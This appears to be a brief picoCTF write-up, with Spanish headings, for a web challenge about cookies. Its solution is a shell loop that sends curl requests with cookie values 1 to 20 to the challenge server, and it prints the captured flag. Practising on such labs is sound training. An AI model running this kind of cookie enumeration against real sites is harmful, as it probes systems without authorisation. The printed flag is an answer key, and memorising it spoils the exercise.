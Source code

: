 # Objetivo

Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:64944/](http://mercury.picoctf.net:64944/)

# Solucion

```
──(kali㉿kali)-[~]
└─$ for i in {1..20}; do curl -s http://mercury.picoctf.net:17781/check -H "Cookie: name=$i"; done | grep pico
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135}</code></p>
```

# Notas adicionales

# Referencias